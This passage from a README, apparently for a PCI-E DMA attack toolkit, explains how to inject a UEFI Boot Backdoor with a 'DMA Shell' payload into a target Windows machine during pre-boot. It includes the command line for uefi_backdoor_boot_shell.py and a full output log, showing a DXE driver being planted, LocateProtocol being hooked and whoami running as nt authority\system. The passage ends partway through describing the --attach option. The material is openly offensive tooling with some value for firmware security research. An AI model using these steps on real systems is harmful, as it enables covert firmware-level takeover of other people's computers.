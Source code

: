 To get more information about Hyper-V Backdoor use cases and features [check its README file](https://github.com/Cr4sh/s6_pcie_microblaze/blob/master/python/payloads/DmaBackdoorHv/README.MD) with detailed information.

Python programs `uefi_backdoor_boot.py` and `uefi_backdoor_boot_shell.py` are used to inject Boot Backdoor into the target system boot sequence. Boot Backdoor allows to run arbitrary user mode or kernel mode code under the Windows operating system and its payload called DMA Shell allows to execute console commands and transfer the files. To deploy Boot Backdoor with DMA Shell using pre-boot DMA attack you have to perform the same steps as described above but using `uefi_backdoor_boot_shell.py` program:

```
$ ./uefi_backdoor_boot_shell.py --command "whoami"
[+] 44544 bytes of payload image read
[+] 21299 bytes of payload image after the compression
[+] Using UEFI system table hook injection method
[+] Waiting for PCI-E link...
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] PCI-E endpoint is not configured by root complex yet
[!] Bad MRd TLP completion received
[!] Bad MRd TLP completion received
[+] PCI-E link with target is up
[+] Device address is 01:00.0
[+] Looking for DXE driver PE image...
[+] PE image is at 0x7a070000
[+] EFI_SYSTEM_TABLE is at 0x7a03e018
[+] EFI_BOOT_SERVICES is at 0x7a38fa30
[+] EFI_BOOT_SERVICES.LocateProtocol() address is 0x7a3987b4
Backdoor image size is 0x14847
Backdoor entry RVA is 0x908
Planting DXE stage driver at 0xc0000...
Hooking LocateProtocol(): 0x7a3987b4 -> 0x000c0908
1.759079 sec.
[+] DXE driver was planted, waiting for backdoor init...
[+] DXE driver was executed, you can read its debug messages by running this program with --debug-output option
[+] Waiting for backdoor load...
[+] Winload image was loaded

              Image base: 0x0086a000
 OslArchTransferToKernel: 0x009c4b20

[+] DONE
[+] Waiting for payload init...
[+] Payload shared memory region is at 0x00200000
[+] Executing command: whoami
[+] Process exit code: 0x00000000

nt authority\system
```

Now, when Boot Backdoor with its payload was sucessfully loaded, you can run `uefi_backdoor_boot_shell.py` with `--attach` option to communicate with currently running instance of DMA Shell:
